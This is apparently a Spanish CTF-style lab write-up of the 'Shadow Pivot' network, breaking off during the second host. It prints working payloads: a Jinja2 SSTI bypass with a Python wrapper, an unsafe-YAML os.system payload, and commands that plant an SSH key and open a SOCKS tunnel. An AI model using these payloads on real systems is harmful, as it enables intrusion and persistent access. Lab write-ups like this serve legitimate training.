# Shadow Pivot — Auditoría de seguridad ofensiva y writeup

| **Campo** | **Valor** |
|---|---|
| **Plataforma** | Whoami-Labs |
| **Laboratorio** | Shadow Pivot |
| **Dificultad** | ★★★★★☆☆☆ · 5 / 10 · “difícil” |
| **Fecha** | 11 de noviembre de 2026 |
| **Objetivo inicial** | `172.25.1.10` |
| **Alcance** | `172.25.1.0/24`, `172.25.2.0/24`, `172.25.3.0/24` |
| **Autor** | `chifay` |
| **Resultado** | 4 / 4 flags · cadena de 3 saltos completada |

> **Contexto:** El entorno se desplegó localmente con `startlab.sh` y la imagen `shadow_pivot.tar`; el objetivo anunciado por el script es `172.25.1.10`. La auditoría se ejecutó desde Kali (`192.168.66.130`), con el bridge de Docker `172.25.1.1` como punto de entrada a la red del laboratorio.

> **Versión pública:** este documento omite o sustituye todas las flags, tokens, contraseñas y material de clave privada. Las capturas con datos sensibles se publican con esas regiones difuminadas. Los scripts de explotación, las claves y las notas internas no forman parte de esta copia.

---

## 1. Resumen ejecutivo

Shadow Pivot es un laboratorio de pivoting en tres segmentos. La cadena explotada fue:

1. **Edge (`172.25.1.10`)** — SSTI en Flask/Jinja2 en `POST /api/reports/generator`, con ejecución de comandos como `webops`. Desde el host se obtuvo la flag de usuario y un `cluster.json` con el token y el gateway interno.
2. **Pivot (`172.25.2.20`)** — la API interna `/api/v1/sync/task` valida el token filtrado y deserializa YAML de forma insegura (`yaml.load(..., Loader=yaml.Loader)`), lo que permite ejecutar comandos como `secops`. Se obtuvo la flag de usuario y acceso SSH estable.
3. **Vault (`172.25.3.30`)** — la consola PHP `VaultKey` tiene LFI en `view.php?page=`. La LFI permite leer `/tmp/keys/id_rsa` (permisos `0644`), clave privada de `vaultadmin`. Con ella se accedió por SSH, se leyó la flag de usuario y se escaló a root mediante `sudo NOPASSWD: /usr/bin/find`.

### Flags obtenidas

| Host | Contexto | Flag |
|---|---|---|
| Edge | `/home/webops/user.txt` | `PivotLabs{EDGE_USER_REDACTED}` |
| Pivot | `/home/secops/user.txt` | `PivotLabs{PIVOT_USER_REDACTED}` |
| Vault | `/home/vaultadmin/user.txt` | `PivotLabs{VAULT_USER_REDACTED}` |
| Vault | `/root/flag.txt` (root) | `PivotLabs{VAULT_ROOT_REDACTED}` |

### Hallazgos críticos

- SSTI con RCE no autenticada en el perímetro.
- Deserialización YAML insegura en la API interna.
- LFI con exposición de una clave privada SSH reutilizable.
- `sudo` sin contraseña sobre un binario GTFOBins (`find`).
- Token estático compartido entre segmentos, almacenado en un JSON legible por `webops`.
- Credenciales y flags incrustadas en capas de la imagen Docker.

---

## 2. Topología y superficie de ataque

```
Kali 192.168.66.130
        │
        │ 172.25.1.1 (bridge)
        ▼
┌─────────────────────┐
│ Edge 172.25.1.10    │  DMZ
│      172.25.2.10    │
└─────────┬───────────┘
          │ 172.25.2.0/24
          ▼
┌─────────────────────┐
│ Pivot 172.25.2.20   │  Corp
│       172.25.3.20   │
└─────────┬───────────┘
          │ 172.25.3.0/24
          ▼
┌─────────────────────┐
│ Vault 172.25.3.30   │  Segmento crítico
└─────────────────────┘
```

| Host | Interfaces | Puertos relevantes | Rol |
|---|---|---|---|
| Edge | `172.25.1.10`, `172.25.2.10` | 21, 22, 25, 80, 110, 3306, 8088 | Gateway perimetral / Flask |
| Pivot | `172.25.2.20`, `172.25.3.20` | 22, 6379, 8000, 9200 | API CorpSec / salto a vault |
| Vault | `172.25.3.30` | 22, 8081, 9090 | Consola PHP / SSH |

Los servicios FTP, SMTP, POP3, MySQL, Webmin, Redis y Elasticsearch son **mocks de telemetría** implementados en Python. Responden con banners y datos plausibles, pero no procesan autenticación ni ofrecen una vía real de acceso. Se verificaron y se descartaron; el camino real es web → API → LFI.

---

## 3. Metodología

- Reconocimiento TCP con `nmap` y un escáner de conectividad propio sobre SOCKS5.
- Enumeración HTTP con `curl`, inspección de código y pruebas manuales.
- Explotación de SSTI, deserialización YAML y LFI.
- Pivoting con `ssh -D` y `proxychains4` en dos saltos.
- Post-explotación: instalación de claves SSH de auditoría, lectura de flags, `sudo -l` y GTFOBins.
- Evidencias: capturas reales de la terminal de Kali con los comandos ejecutados, guardadas en `screenshots/`.

Los artefactos publicables se conservan en `scans/` y `screenshots/`. El material sensible (claves, token, credenciales y scripts de explotación) se ha excluido de esta copia pública.

---

## 4. Fase 1 — Edge (`172.25.1.10`)

### 4.1 Reconocimiento de puertos

El primer barrido reveló siete puertos TCP:



```bash
nmap -Pn -sT --top-ports 1000 --min-rate 1000 172.25.1.10
```

| Puerto | Servicio | Observación |
|---|---|---|
| 21/tcp | FTP | Mock de `vsftpd 3.0.5`; rechaza autenticación |
| 22/tcp | SSH | `OpenSSH 8.9p1 Ubuntu` |
| 25/tcp | SMTP | Mock de Postfix |
| 80/tcp | HTTP | **Werkzeug 3.1.9 / Flask** |
| 110/tcp | POP3 | Mock de Dovecot |
| 3306/tcp | MySQL | Mock de MySQL 8.0.35 |
| 8088/tcp | HTTP | Mock de Webmin con Basic Auth |

La detección de versiones confirmó el stack web y el hostname `edge.netpulse.local`:



```bash
nmap -Pn -sT -sV -p21,22,25,80,110,3306,8088 172.25.1.10
```

### 4.2 Enumeración web

La página principal se presenta como “NetPulse Systems v2.4 | Perimeter Gateway” y anuncia dos rutas:



```bash
curl -s http://172.25.1.10/ | grep -E 'title>|NetPulse|Reports|Diagnostics'
```

- `POST /api/reports/generator` — generador de reportes.
- `/admin_test` — portal de verificación de personal; devuelve siempre un error genérico de HSM y es un señuelo.
- `robots.txt`, `/login`, `/admin`, `/dashboard` — 404.

El endpoint de reportes acepta JSON con el parámetro `template_name`:

```http
POST /api/reports/generator HTTP/1.1
Content-Type: application/json

{"template_name":"test"}
```

```json
{"rendered":"test","status":"ok"}
```

### 4.3 SSTI en Jinja2

Al enviar una expresión Jinja2, el servidor la evalúa y devuelve el resultado:



```bash
curl -s -X POST -H 'Content-Type: application/json' \
  --data @web/ssti_7x7.json \
  http://172.25.1.10/api/reports/generator
# {"rendered":"49","status":"ok"}
```

El código vulnerable usa `render_template_string` sobre entrada del usuario:

```python
@app.route("/api/reports/generator", methods=["POST"])
def generate_report():
    data = request.get_json(silent=True)
    if not data or "template_name" not in data:
        return jsonify({"error": "Missing template_name parameter"}), 400

    tmpl = str(data.get("template_name", ""))

    blocked = ["__class__", "mro", "system", "__subclasses__"]
    for b in blocked:
        if b in tmpl:
            return jsonify({"status": "error", "message": "Security policy violation"}), 403

    res = render_template_string(tmpl)
    return jsonify({"status": "ok", "rendered": res})
```

La lista negra bloquea cadenas concretas, pero no el acceso a `cycler.__init__.__globals__`, que expone el módulo `os`:

```jinja2
{{ cycler.__init__.__globals__.os.popen("id").read() }}
```

### 4.4 RCE como `webops` y flag de usuario

La ejecución se confirmó con `id`:



```bash
python3 exploits/ssti.py 'id'
# uid=1000(webops) gid=1000(webops) groups=1000(webops)
```

`exploits/ssti.py` encapsula el payload:

```python
payload = "{{ cycler.__init__.__globals__.os.popen(%r).read() }}" % cmd
r = requests.post(URL, json={"template_name": payload}, timeout=20)
print(json.loads(r.text)["rendered"], end="")
```

Con el mismo canal se leyó la flag de usuario:



```bash
python3 exploits/ssti.py 'cat /home/webops/user.txt'
# PivotLabs{EDGE_USER_REDACTED}
```

### 4.5 Configuración interna y token de cluster

El directorio de la aplicación (`/opt/netpulse`) contiene `cluster.json` con el gateway interno y un token de sincronización:



```json
{
  "node_id": "EDGE-01",
  "environment": "Production-DMZ",
  "internal_gateway": "172.25.2.20:8000",
  "sync_api_token": "<REDACTED_CLUSTER_TOKEN>"
}
```

Este token es la llave para la API del siguiente segmento. Además, el archivo es legible por el usuario `webops`, por lo que el compromiso de la aplicación web expone directamente la autenticación interna.

### 4.6 Acceso estable y túnel SOCKS

Para pivotar se instaló una clave pública de auditoría en `/home/webops/.ssh/authorized_keys` y se abrió un proxy SOCKS:

```bash
ssh-keygen -t ed25519 -f loot/edge_webops -N '' -C 'shadow-pivot-audit'
PUB=$(base64 -w0 loot/edge_webops.pub)
python3 exploits/ssti.py \
  "mkdir -p /home/webops/.ssh && echo $PUB | base64 -d > /home/webops/.ssh/authorized_keys && chmod 700 /home/webops/.ssh && chmod 600 /home/webops/.ssh/authorized_keys"

ssh -D 1080 -N -f -i loot/edge_webops webops@172.25.1.10
```

La clave de auditoría tiene fingerprint `SHA256:YbKa8C0FM75ztvaiveEHeKXPGU+xfjnbQKVGbDchSRI`.

---

## 5. Fase 2 — Pivot (`172.25.2.20`)

### 5.1 Descubrimiento a través del túnel

El túnel `1080` permite alcanzar la red `172.25.2.0/24`, inaccesible desde Kali. La API responde en `8000`:



```bash
curl -s --socks5-hostname 127.0.0.1:1080 http://172.25.2.20:8000/
```

```json
{
  "endpoints": ["/api/v1/health", "/api/v1/sync/task"],
  "service": "CorpSec Gateway API",
  "status": "ready",
  "version": "1.8.4-internal"
}
```

El escaneo de puertos sobre el proxy confirma la superficie:



```bash
python3 bin/socks_scan.py 127.0.0.1:1080 172.25.2.20 1 10000
# 172.25.2.20: [22, 6379, 8000, 9200]
```

- `22/tcp` — SSH.
- `6379/tcp` — Redis simulado; `INFO` y `GET` devuelven datos ficticios.
- `8000/tcp` — API CorpSec real.
- `9200/tcp` — Elasticsearch simulado; responde el mismo JSON a cualquier ruta.

Redis y Elasticsearch son señuelos: no permiten escritura de claves, módulos ni scripts. El vector real es la API.

### 5.2 Autenticación de la API

`POST /api/v1/sync/task` exige el header `X-Cluster-Token` con el valor obtenido en `cluster.json`:

```bash
curl -s -X POST \
  -H 'X-Cluster-Token: <REDACTED_CLUSTER_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{}' \
  http://172.25.2.20:8000/api/v1/sync/task
# {"payload_type":"<class 'dict'>","status":"task_processed"}
```

La respuesta revela el tipo del objeto parseado (`dict`, `list`, `str`, `NoneType`), un indicio de que el cuerpo se deserializa antes de procesarlo.

### 5.3 Deserialización YAML insegura

El código de `/opt/corpsec/app.py` confirma el uso de `yaml.load` con el loader inseguro:



```python
EXPECTED_TOKEN = "<REDACTED_CLUSTER_TOKEN>"

@app.route("/api/v1/sync/task", methods=["POST"])
def sync_task():
    token = request.headers.get("X-Cluster-Token", "")
    if token != EXPECTED_TOKEN:
        return jsonify({"status": "unauthorized", "code": 401}), 401

    try:
        content = request.get_data(as_text=True)
        parsed = yaml.load(content, Loader=yaml.Loader)
        return jsonify({"status": "task_processed", "payload_type": str(type(parsed))})
    except Exception as e:
        return jsonify({"status": "error", "detail": str(e)}), 400
```

`yaml.Loader` permite constructores de objetos Python. El payload `!!python/object/apply:os.system` ejecuta comandos en el servidor:

```yaml
!!python/object/apply:os.system ["id > /tmp/yaml_id.txt"]
```

La petición devuelve `payload_type: <class 'int'>`, confirmando que `os.system` se ejecutó:



```bash
python3 exploits/yaml_rce.py 'id > /tmp/yaml_id.txt'
# {"payload_type":"<class 'int'>","status":"task_processed"}
```

### 5.4 RCE, persistencia y flag de usuario

Se instaló una segunda clave SSH y se leyó la flag:

